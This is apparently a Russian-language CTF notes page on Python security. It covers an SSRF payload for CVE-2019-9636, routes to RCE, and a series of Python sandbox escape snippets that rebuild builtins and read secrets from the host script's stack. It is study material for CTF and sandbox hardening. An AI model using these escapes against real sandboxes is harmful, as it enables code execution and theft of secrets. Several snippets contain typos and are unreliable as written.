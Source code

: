# Python Security

## CVEs

[CVE-2019-9636](https://www.cvedetails.com/cve/CVE-2019-9636/) - (Python 2.7.16/3.7.2 <= ) пример эксплуатации: таск [AquaWorld](https://github.com/joshdabosh/writeups/tree/master/2020-SharkyCTF), SharkyCTF 2020: кратко, ошибка в парсинге unicode в url, в следствие чего можно было обратиться к локальному ресурсу:&#x20;

```
http://aquaworld.sharkyctf.xyz/admin-query\uFF03@127.0.0.1?flag=flag
```

## RCE

Способы добиться исполнения кода на Python:

* Через десер в pickle
* Если используется subprocess
* Через File Upload, если можем писать в директорию с модулями. Если успеем переписать какой-то модуль до его первого импорта, то будет RCE. Mitigation: использовать zipap и определять директории, где могут находиться модули через sys.path

## Python Sandbox

### Basic Tricks

#### Get any string

```python
# 1
bytes([20, 22, 24, 25]).decode()

# 2
func = lambda somestring: _
str_Somestring = func.__code__.co_varnames[0]
```

#### Перенос строки без переноса строки

В Python возврат каретки `\r` то же самое, что и перенос строки `\n`.&#x20;

#### unicode

Интерпретатору python все равно на unicode символы, он их попытается привести к ascii:

![](../../../.gitbook/assets/изображение.png)

### Работа с типами

#### Создание класса

Пусть наш код запускается следующим образом (у нас ограничен `globals`)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Без `__build_class__` в `builtins` нельзя создать класс:

```python
myfunc = lambda test:_        # Создаем функцию
gobals = myfunc.__globals__   # Получаем глобальные переменные скрипта
builtins = globals['__builtins__']  # Получаем ссылку на словарь, в котором определены все из пакета builtins (или не определены)
builtins['__build_class__'] = lamda *x: 3  # Здесь может быть любая функция

class C: pass  # теперь этот код не будет вызывать ошибки, если builtins нет в globals переменных
```

#### Декораторы и вызов функций через них

Декораторы — это функции, которые в питоне могут быть представлены почти к чему угодно. Например, фунциям. С помощью декораторов можно организовать вызов какой-либо функции, не используя круглых скобок. Ограничение: вызвать можно только функции, которые принимают 1 аргумент (хорошо, что некоторые функции настроены на непозиционные аргументы или на кортежи аргументов). Пример:

```python
result = object()

returnedValues = []

@returnedValues.append
@result.__class__.__subclasses__
class X: pass
```

Другая форма вызова функции через декораторы:

```python
# 1
a = f(b)

# 2
f = lambda x: x + 1

@f
@lambda _:2  # b=2
class a:0    # a=3
```

### Sandboxes

#### builtins через subclasses

Зачем нужен builtins? — это ключ к свободному выполнению кода в Python и за пределами контекста Python.&#x20;

```python
result = SomeObjectClassFromParentContext
builtins = [x for x in result.__class__.__subclasses__() if x.__name__ == "catch_warnings"][0]()._module.__builtins__
```

#### builtins из ничего

Допустим вас запустили в контексте, где нет builtins. Как до него добраться без `__subclasses__()`и не имея ни одного объекта из внешнего контекста? (все методы во всех гайдах опираются на метод subclasses)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Выбираемся (здесь как-то связано с pickle; пример без использования круглых скобок => без возможности вызова функций обычными способами):

```python
builtins['__build_class__'] = lamda *x: 3
result = ''
x = []

# ''.__reduce_ex__(3)
@x.append
@result.__reduce_ex__
class X:
  pass
  
# x — [(<function __newobj__ at 0x108e7b160>, (<class 'str'>, ''), None, None, None)]
builtins = x[0][0].__globals__['__builtins__']
```

reduce\_ex принимает номер версии протокола pickle. Прием выше будет работать с протоколом 2 и выше.

#### Получаем доступ ко всем переменным в скрипте из builtins

Пример, что можно сделать, через builtins – например, получить доступ к переменным основного контекста. Пусть наш код запускается следующим способом:

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
SECRET = 'it\'s secret'     # З
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

И пусть мы уже получили каким-либо способом builtins. Тогда, через пакет inspect мы можем получить доступ ко всему стеку вызова основного скрипта:

```python
Import = builtins['__import__']
stack = Import('inspect').stack()

for frameInfo in stack:
    if 'SECRET' in frameInfo.frame.f_locals:
        print(frameInfo.frame.f_locals['SECRET'])  # it's secret
```

### Links & Papers

HackTricks Gitbook: [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Таск [Эмиля Лернера](https://t.me/neexemil) на выход из песочницы python и его решение: [https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2](https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2)
